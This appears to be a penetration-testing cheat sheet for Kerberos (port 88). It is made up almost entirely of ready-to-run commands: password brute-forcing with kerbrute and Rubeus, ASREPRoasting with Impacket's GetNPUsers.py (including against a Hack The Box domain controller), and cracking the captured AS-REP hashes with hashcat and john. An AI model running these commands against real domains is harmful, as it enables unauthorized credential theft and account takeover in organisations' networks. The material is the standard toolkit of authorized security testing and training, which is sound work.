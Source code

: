 # Kerberos Pentesting - 88/TCP

## Bruteforcing
- With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute):
```shell
python kerbrute.py -domain <domain_name> -users <users_file> -passwords <passwords_file> -outputfile <output_file>
```

- With [Rubeus](https://github.com/Zer1t0/Rubeus) version with brute module:
```shell
# with a list of users
.\Rubeus.exe brute /users:<users_file> /passwords:<passwords_file> /domain:<domain_name> /outfile:<output_file>

# check passwords for all users in current domain
.\Rubeus.exe brute /passwords:<passwords_file> /outfile:<output_file>
```

## ASREPRoast
- With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:
```bash
# Get the user can be used
python3 GetNPUsers.py htb.local/ -dc-ip 10.10.10.161

# Reveal the hash of the user and the user himself 
python3 GetNPUsers.py -dc-ip 10.10.10.161 -request 'htb.local/' -format hashcat
```
or
```shell
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

- With [Rubeus](https://github.com/GhostPack/Rubeus):
```shell
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>
```

- Cracking with dictionary of passwords:
```shell
# Search for the hash mode in the example to be cracked
hashcat --example-hashes | grep -i krb5as -B 12

# Or
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```
